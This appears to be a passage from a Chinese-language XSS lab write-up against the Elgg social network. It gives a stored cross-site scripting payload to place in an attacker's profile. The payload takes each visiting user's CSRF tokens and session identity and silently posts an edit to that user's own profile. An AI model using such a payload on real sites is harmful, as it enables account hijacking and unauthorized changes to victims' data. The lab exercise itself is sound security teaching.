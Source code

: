 ![image-20240703184856999](img/image-20240703184856999.png)

# 2.2使用 Ajax 脚本自动发起会话劫持

在 Samy 的 about me 中添加攻击脚本如下：

```
<script type="text/javascript">
	window.onload = function() {
		var elgg_ts = "&__elgg_ts=" + elgg.security.token.__elgg_ts;
		var elgg_token = "&__elgg_token=" + elgg.security.token.__elgg_token;
		var guid = "&guid=" + elgg.session.user.guid;
		var name = "&name=" + elgg.session.user.name;
		var desc = "&description=:):):):):):). zyx" + "&accesslevel[description]=2";
		var content = elgg_token + elgg_ts + name + desc + guid;
		var sendurl = "http://www.xsslabelgg.com/action/profile/edit";
	
		if (elgg.session.user.guid != 47) {
			var Ajax = null;
			Ajax = new XMLHttpRequest();
			Ajax.open("POST",sendurl,true);
			Ajax.setRequestHeader("Content-Type","application/x-www-form-urlencoded");
			Ajax.send(content);
		}
	}
</script>
```
